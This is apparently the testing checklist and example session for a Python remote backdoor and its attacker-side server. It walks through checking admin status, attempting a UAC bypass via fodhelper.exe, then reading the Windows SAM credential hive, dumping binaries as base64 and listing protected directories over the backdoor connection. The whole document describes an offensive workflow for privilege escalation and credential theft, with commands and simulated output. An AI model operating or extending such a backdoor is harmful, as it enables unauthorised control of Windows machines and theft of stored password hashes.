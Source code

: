 
## Testing Checklist

Test these scenarios:

- [ ] `priv_check` shows correct admin status
- [ ] `priv_read_file` reads accessible text files
- [ ] `priv_read_file` shows error for protected files (when not admin)
- [ ] `priv_uac_bypass` attempts elevation
- [ ] `priv_read_file` works after successful elevation
- [ ] `priv_read_binary` returns base64-encoded content
- [ ] `priv_list_dir` lists accessible directories
- [ ] `priv_list_dir` shows files and directories correctly
- [ ] Error messages provide helpful suggestions
- [ ] Help command shows new commands

---

## Example Test Sequence

```bash
# 1. Start backdoor (not as admin)
python backdoor.py

# 2. On attacker machine, connect
python server.py

# 3. Check status
> priv_check
Response: is_admin = false

# 4. Try to read protected file
> priv_read_file C:\Windows\System32\config\SAM
Response: Permission denied - admin privileges required
Suggestion: Run 'priv_uac_bypass' to attempt elevation

# 5. Attempt elevation
> priv_uac_bypass
Response: UAC bypass attempts: fodhelper.exe executed...

# 6. Verify elevation
> priv_check
Response: is_admin = true (if successful)

# 7. Try again
> priv_read_file C:\Windows\System32\config\SAM
Response: [+] File read successfully using powershell
[Content displayed]

# 8. Test binary read
> priv_read_binary C:\Windows\System32\kernel32.dll
Response: [+] Binary file read successfully
Base64 content: TVqQAAMAAAAE...

# 9. Test directory listing
> priv_list_dir C:\Windows\System32\config
Response: [+] Directory listed successfully
DIRECTORIES: [list]
FILES: [list]
```

---
